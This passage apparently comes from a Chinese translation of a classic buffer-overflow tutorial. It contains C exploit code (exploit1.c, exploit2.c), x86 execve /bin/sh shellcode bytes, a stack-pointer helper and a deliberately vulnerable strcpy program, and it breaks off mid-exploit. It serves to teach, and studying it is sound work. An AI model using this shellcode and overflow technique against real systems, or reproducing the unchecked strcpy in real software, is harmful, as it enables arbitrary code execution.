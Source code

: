```c
    for (i = 0; i < strlen(shellcode); i++) 
        large_string[i] = shellcode[i];
    strcpy(buffer,large_string);
} 
/*
[aleph1]$ gcc -o exploit1 exploit1.c 
[aleph1]$ ./exploit1 
$ exit exit 
[aleph1]$
*/
```



我们在上面所做的是用数组`large_string[]`的地址去填充`buffer[]`，这就是我们的代码所在的位置。然后我们将shellcode复制到`large_string[]`中。`strcpy()`将把`large_string[]`复制到`buffer[]`中，而不做任何边界检查，并且将使返回地址溢出，用代码现在所在的地址覆盖它。一旦我们到达main的末尾，它试图返回，它就会跳转到我们的代码，并执行一个shell。当我们试图使另一个程序的缓冲区溢出时，我们面临的问题是试图找出缓冲区（以及我们的代码）的地址。这个问题的答案是，对于每个程序，堆栈都将从相同的地址开始。大多数程序在任何时候都不会将超过几百或几千字节的数据推入堆栈。因此，通过知道堆栈从何处开始，我们可以尝试猜测要溢出的缓冲区将在何处。下面是一个小程序，它将打印堆栈指针：

```c
//sp.c
unsigned long get_sp(void) { 
    __asm__("movl %esp,%eax");
} 
void main() { 
    printf("0x%x\n", get_sp());
}

/* 
[aleph1]$ ./sp 
0x8000470 
[aleph1]$
*/
```

让我们假设下面这个是我们要溢出的程序

```c
//vulnerable.c
void main(int argc, char *argv[]) { 
    char buffer[512];
    if(argc > 1)
        strcpy(buffer, argv[1]);
}
```

我们可以创建一个程序，将缓冲区大小和它自身堆栈指针的偏移量（我们认为要溢出的缓冲区可能存在的位置）作为参数。我们将把溢出字符串放在一个环境变量中，这样更容易操作

```c
//exploit2.c
#include <stdlib.h> 

#define DEFAULT_OFFSET	0
#define DEFAULT_BUFFER_SIZE	512

char shellcode[] = "\xeb\x1f\x5e\x89\x76\x08\x31\xc0\x88\x46\x07\x89\x46\x0c\xb0\x0b" "\x89\xf3\x8d\x4e\x08\x8d\x56\x0c\xcd\x80\x31\xdb\x89\xd8\x40\xcd" "\x80\xe8\xdc\xff\xff\xff/bin/sh";

unsigned long get_sp(void) { 
    __asm__("movl %esp,%eax");
}

void main(int argc, char *argv[]) { 
    char *buff, *ptr;
    long *addr_ptr, addr;
    int offset=DEFAULT_OFFSET, bsize=DEFAULT_BUFFER_SIZE;
    int i;
    
```